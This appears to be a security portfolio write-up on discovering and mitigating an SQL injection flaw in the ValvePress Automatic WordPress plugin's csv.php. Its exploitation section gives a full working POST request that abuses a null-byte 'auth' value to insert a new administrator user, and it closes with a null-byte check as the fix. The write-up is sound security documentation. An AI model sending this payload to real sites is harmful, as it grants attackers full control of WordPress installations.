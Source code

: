 # Discovering and Mitigating SQL Injection Vulnerabilities in the ValvePress Automatic WordPress Plugin

**Year**: *2022*

**Skills**: *SQL Injection, WordPress, Security Assessment, Plugin Development, Vulnerability Discovery, Burp Suite, Kali Linux, WPScan, OWASP ZAP, Web Application Security, Penetration Testing, Secure Coding, Prepared Statements, Authentication Bypass, PHP, Database Security, Network Security, Ethical Hacking, Threat Modeling, Vulnerability Mitigation, Bug Bounty, Web Security Best Practices, Security Testing, Application Security, Cybersecurity, Exploit Development.*

## 🛠️ Project Overview
The **ValvePress Automatic Plugin** pulls content from various sources like RSS feeds, social media, and APIs for automatic posting. However, during a security assessment, I uncovered a critical vulnerability in the plugin’s code, specifically related to how it handled SQL queries. 🔍

## 💥 Identifying the Vulnerability
Using a controlled test environment with **Kali Linux**, **WPScan**, **WPBullet**, and **OWASP ZAP**, I pinpointed an SQL injection flaw in the `csv.php` file within the plugin’s `wp-automatic/inc` folder. The flaw existed due to improper handling of the `$auth` parameter, which allowed us to inject arbitrary SQL queries and bypass authentication. 💻

<img src="/portfolio/assets/projects/vulnerability_assessment/fig1.png" class="md-img" />

## 💣 Exploitation Process
- **Intercepting Requests**: Using **Burp Suite**, I intercepted HTTP POST requests containing the `$auth` parameter. 🕵️‍♂️

<img src="/portfolio/assets/projects/vulnerability_assessment/fig2.png" class="md-img" />

- **Injecting SQL**: By modifying the `$auth` parameter, I injected SQL queries to escalate privileges and add an administrative user to the database. 🔓
    ```
    POST http://localhost/wordpress/wp-content
    /plugins/wp-automatic/inc/csv.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; 
    rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,
    application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Length: 336

    q=INSERT INTO wp_users (user_login, user_pass, user_nicename, 
    user_email, user_url, user_registered, user_status, display_name) 
    VALUES ('inseTQK', '$P$HxfvLR.Te6U9RQFKxgd345dt/7Nk8B/', 'inseTQK', 
    'inseTQK@concordia.com', 'http://168.0.0.1:8080', '2025-03-21 22:12:51', 
    0, 'inseTQK')&integ=298c8ba78748f02877a09f1a1e2006b1&auth=%00
    ```
- **Impact**: This allowed unauthorized access, including full control over the WordPress admin panel. ⚡

*Before Attack:*

<img src="/portfolio/assets/projects/vulnerability_assessment/fig3.png" class="md-img" />

*After Attack:*

<img src="/portfolio/assets/projects/vulnerability_assessment/fig4.png" class="md-img" />

## 🛡️ Mitigation
- **Null Byte Detection**: Added checks to prevent null byte injection. 🚫
- **Secure Password Validation**: Replaced insecure password handling with WordPress’s `wp_check_password()` method. 🔑

<img src="/portfolio/assets/projects/vulnerability_assessment/fig5.png" class="md-img" />

    ```
    21 | if (strpos($auth, "\0") !== false) {
    22 |    echo 'NULL byte detected';
    23 |    exit;
    24 | }
    ```
*After Mitigation:*

<img src="/portfolio/assets/projects/vulnerability_assessment/fig6.png" class="md-img" />

****************************